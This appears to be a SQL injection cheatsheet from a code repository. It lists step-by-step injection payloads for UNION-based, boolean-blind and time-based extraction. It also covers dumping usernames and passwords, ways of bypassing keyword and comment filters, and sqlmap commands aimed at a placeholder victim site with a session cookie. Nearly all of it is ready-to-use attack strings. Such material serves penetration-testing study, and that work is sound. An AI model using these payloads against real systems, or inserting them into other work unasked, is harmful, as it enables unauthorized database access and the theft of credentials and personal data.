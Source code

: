 # SPIROS (SQL Cheatsheet)

## SQL Cheatsheet:

### Commenting in SQL

![commenting diagram](img/sql_cheatsheet/sql%20comments.jpg)

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.
> When using `#` as a comment for MySQL, there's no need to add a space after.

### Overview for SQLi

|No.|Steps|Method|
|---|---|---|
|1|Identify instances where application access DB| Look at URL param, cookies, POST data, HTTP headers|
|2|Try injecting SQL| Start with single quotes, concatenator characters, eg: `' 'FOO`|
|3|Determine no. of cols| `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` ... until there's no error|
|4.1|Determine which cols have string data type| `' UNION SELECT 'a', 'b', 'c' -- -`|
|4.2|Determine which cols have numeric data type| `' UNION SELECT 4, 5, 6 -- -`|
|4.3|Use conditional responses if there's no direct method of transmitting data|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`|
|4.4.1|Use conditional errors if there's no noticeable effect on application behavior|`SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username|
|4.4.2|Conditional errors (time delay)|`' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server's response.
|5|Extracting table and cols name|`' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`|
|6.1|Dumping DB using multi cols with string data type|`' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`|
|6.2|Dumping DB using 1 col with string data type|`SELECT CONCAT(username,':',password), NULL, NULL from users -- -`|
|6.3|Dumping DB using multi cols with numeric data type|`' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., 'q')|
|6.4|Dumping DB using conditional responses|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter 'q'|

### Bypassing filters

|Types of blacklisting filter|Ways to bypass|
|---|---|
|Strings|Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`|
|Comments|Use `' OR 'a'='a` instead of `' OR 1=1 -- -`|
|Keywords|Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54`

### SQLmap

|Types of attack|Methods|
|---|---|
|POST request|`sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs`|
|GET request|`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`|
|Using Request file from Burpsuite|`sqlmap -r <path to .req file> -p user –dbs`|

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```
